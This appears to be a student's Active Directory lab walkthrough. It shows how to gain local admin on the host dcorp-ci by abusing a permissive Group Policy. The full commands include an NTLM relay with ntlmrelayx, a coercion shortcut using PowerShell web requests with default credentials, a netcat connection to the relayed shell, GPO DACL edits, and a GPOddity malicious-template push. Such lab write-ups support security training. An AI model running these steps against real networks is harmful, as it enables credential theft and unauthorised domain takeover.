









# **Abuse an overly permissive Group Policy to get admin access on dcorp-ci.**

Recall that we already found that DevOps policy is overly permissive that devopsadmin user has writeDacl,GenericWrite,Writeowner permission.So we abuse it.

First we need the access of devopsadmin user so that we can add our student219 user to the writeDacl of Devops Policy GPO

When viewing the file present inside the AI share ,, that denotes any .lnk files[shortcuts] that put inside it will be executed by the devopsadmin
```PS C:\AI> cat AI.log```


So using the above thing we relay the credentials of the devopsadmin user and get that privilege.
For that we setup a ntlmrelayx tool from the ubuntuWSL in student machine
``` sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.219 --http-port '80,8080' -i --no-smb-server```


Now create a shortcut[.lnk file] in the student machine's tools directory name it as Student219.lnk
and in location box input this ```C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.x' -UseDefaultCredentials"```
"When a user clicks the shortcut, a web request is sent to our target where the ntlmrelayx is running and triggers authentication,, -UseDefaultCredentials will cause to send the current user creds and our ntlmrelay will relay the authentication and get the devopsadmin privilege"

AI share is hosted on the dcorp-ci machine and a user simulation executed the .lnk files present there,, so we need to copy our file from student machine's Tools directory to AI share hosted on the dcorp-ci.
``` xcopy Student219.lnk \\dcorp-ci\AI```

After few seconds we got the connect back where our ntlmrelayx is running


now open a new wsl session and run this command to catch the devopsadmin shell that is got by relaying
``` nc 127.0.0.1 11000```

and this shell is devopsadmin user shell so from here we have two ways to attain local administrator privilege
i)by adding the studentx user to WriteDacl permission of the DevOps Policy
ii)if we have no domain user then add student computer object to the WriteDacl of permissin of the DevOps Policy

why we adding student user or computer to the writedacl of the DevOps policy is we dont have the gpoditty tool on the dcorp-ci machine,, if we have that then straightly proceed out attack there itself,, but we dont have so adding student user or computer to the writedacl

i)doing this 
get the DevOps policy name

adding studentx user to the writeDacl 
``` write_gpo_dacl student219 {0BF8D01C-1F62-4BDC-958C-57140B67D147}```
 

so the student user is added to the WriteDacl of the DevOps policy,, so student user can change the ```gpcfilesyspath``` attribute to location of malicious template and for that they can use "GPOddity" tool to create malicious template that adds the student user to the local administrators group and change the ```gpcfilesyspath``` attribute location to the share that hosting the malicious template

command:
```  sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student219' --password 'use_vpn_credential' --command 'net localgroup administrators student219 /add' --rogue-smbserver-ip '172.16.100.219' --rogue-smbserver-share 'std219-gp' --dc-ip '172.16.2.1' --smb-mode none```

so the above command creates the malicious share and store it in the GPT_out directory also with this it just points the location to "std219-gp" share and it does not crreates one so we need to manuallly create it

so creating a directory called std219-gp annd copying all the things from the GPT_out directory


directory is created but we need to host that directory as share.
```>net share std219-gp=C:\AD\Tools\std219-gp```
make that share accessible to everyone so that dc or group policy can come and read this
```icacls "C:\AD\Tools\std219-gp" /grant Everyone:F /T```


after two minutes the malicious gpo is fetched and executed to all the things where this DevOps gpo is linked

verify is the gpcfilepath is changed 
command:```Get-DomainGPO -Identity 'DevOps Policy'```
before

after


so the studentx user will be added to the local administrators group and verify it by using 
command:
``` winrs -r:dcorp-ci cmd /c "set computername && set username"```


